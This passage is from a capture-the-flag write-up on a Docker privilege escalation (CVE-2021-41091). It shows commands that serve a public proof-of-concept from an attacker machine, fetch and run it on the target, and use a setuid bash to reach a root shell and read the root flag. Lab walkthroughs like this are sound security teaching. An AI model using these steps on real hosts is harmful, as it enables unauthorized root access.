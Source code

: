 Some quick searching about this CVE landed me at the NIST National Vulnerability Database page describing the CVE. In short, the vulnerability exists in older versions of Moby (Docker Engine). In those older versions, the *overlay filesystem* used by docker was overly permissive. Sometimes when you run docker containers, you set up volumes where both the host machine and the docker container both have access to the same directory, setting up a mapping between the two of them. This is often in the host system's `/var/lib/docker` directory. 

> If the `marcus` user had privileges to use various docker commands, we could read from the docker configs what mapping exists for the overlay filesystem. However, since `overlayfs` is a filesystem mounted into the current filesystem, we can see it by checking `df -h`:
> ![docker overlay fs](docker%20overlay%20fs.png)

A little more searching online shows that a github user `@UncleJ4ck` has already made a PoC for this CVE. Let's try using it. The instructions are simple: 

1) From within the docker container, as root, set the `setuid` bit on `/bin/bash`
2) On the host system, download the PoC code and run it. 

Since the box is not connected to the internet, I'll need to download the PoC onto my attacker box and serve the code to the target box (using that same python webserver):

*From the webserver's directory on my attacker box:*

```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091.git
tar -czvf CVE-2021-41091.tar.gz CVE-2021-41091
python3 -m http.server 8000
```

*Then from the target box, via SSH as user `marcus` in any writable directory:*

```bash
wget http://10.10.14.2:8000/CVE-2021-41091.tar.gz
tar -xzvf CVE-2021-41091.tar.gz
rm CVE-2021-41091.tar.gz
cd CVE-2021-41091 && exp.sh
```

Unfortunately, it didn't create a shell. However, it did print out some instructions:

![CVE-2021-41091 1](CVE-2021-41091%201.png)

So, I changed into that directory and tried running `./bin/bash -p`:

![CVE-2021-41091 2](CVE-2021-41091%202.png)

🎉 Nice! a root shell! The euid is now set to `root`.

> I've never seen that kind of privilege escalation before, but it was quite easy! This is definitely going on my list of things to check for whenever I'm in a docker container ✅

Now just simply ``cat`` out the flag to finish the box.

```bash
cat /root/root.txt
```



## EXTRA CREDIT
